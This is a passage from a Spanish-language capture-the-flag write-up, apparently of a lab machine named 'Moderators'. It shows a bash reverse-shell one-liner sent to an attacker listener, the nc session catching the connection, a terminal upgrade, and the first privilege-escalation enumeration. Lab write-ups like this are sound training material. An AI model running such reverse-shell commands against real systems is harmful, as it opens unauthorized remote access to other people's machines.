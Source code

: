 ```null
$ whoami
www-data
```

Para no estar desde una sh, me envío otra por bash

```null
$ bash -c 'bash -i >& /dev/tcp/10.10.14.7/443 0>&1' & disown
```

```null
nc -nlvp 443
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.10.11.173.
Ncat: Connection from 10.10.11.173:38762.
bash: cannot set terminal process group (1000): Inappropriate ioctl for device
bash: no job control in this shell
www-data@moderators:/$ script /dev/null -c bash
script /dev/null -c bash
Script started, file is /dev/null
www-data@moderators:/$ ^Z
zsh: suspended  nc -nlvp 443
❯ stty raw -echo; fg
[1]  + continued  nc -nlvp 443
                              reset xterm
www-data@moderators:/$ export TERM=xterm
www-data@moderators:/$ export SHELL=bash
```

# Escalada

En el directorio /opt hay un WordPress montado cuyo propietario es lexi y como grupo asignado está moderators

```null
www-data@moderators:/opt/site.new$ ls -la
total 228
drwxr-xr-x  5 lexi moderators  4096 Jul 14  2022 .
drwxr-xr-x  3 root root        4096 Jul 14  2022 ..
-rw-r--r--  1 lexi moderators   405 Sep 11  2021 index.php
-rw-r--r--  1 lexi moderators 19915 Jan 29  2022 license.txt
-rw-r--r--  1 lexi moderators  7437 Jan 29  2022 readme.html

...
```

El puerto 8080 está abierto internamente

```null
www-data@moderators:/opt/site.new$ netstat -nat
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address           Foreign Address         State      
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN     
tcp        2      0 127.0.0.1:8080          0.0.0.0:*               LISTEN 
```
